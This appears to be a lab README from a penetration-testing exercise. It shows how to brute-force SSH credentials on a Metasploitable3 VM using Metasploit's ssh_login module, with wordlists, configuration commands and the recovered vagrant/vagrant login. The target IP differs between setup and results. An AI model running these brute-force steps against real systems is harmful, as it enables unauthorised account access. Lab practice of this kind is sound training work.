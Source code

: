 # Phase 1: Setup and Compromise the SSH Service

Task 1.1: Use Kali Linux tool Metasploit to compromise the SSH service Using Metasploit

## Objective
Use the `auxiliary/scanner/ssh/ssh_login` module in Metasploit to brute-force SSH credentials on the Metasploitable3 target machine.

---

## 🖥️ Step 1: Setup the Target Environment

- **Attacker Machine:** Kali Linux (on UTM)
- **Victim Machine:** Metasploitable3 Ubuntu 14.04 (on UTM)
- **Target IP Address:** `192.168.100.10`
- **Target SSH Port:** `22` (default)

---

## Step 2: Create Wordlist Files

![user.txt & pass.txt files creation](screanshots/filesUserAndPass.png)

use ``` nano [name of the text file].txt ``` to edit the content of the file, add random usernames and passwords.

### users.txt content

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt contant
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

## Step 3: Load the SSH Login Module

### Launch Metasploit:
```text
sudo msfconsole
```
### Load the SSH login module:
```text
use auxiliary/scanner/ssh/ssh_login
```

## Step 4: Configure the Module

### Set the Target Host, Username & Password Files, and Improve Brute-Force Performance:
```text
set RHOSTS 192.168.100.10
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```
![set](screanshots/Settters.png)

## Step 5: Run the Attack
```text
run
```

## Results:
![SSH Brute-force Result](screanshots/ssh-results.jpg)

### The Metasploit ssh_login module successfully brute-forced SSH credentials on the Metasploitable3 target.

* Target IP: 192.168.64.7

* SSH Service was accessible on port 22

- Valid credentials found:
  - **Username:** `vagrant`
  - **Password:** `vagrant`











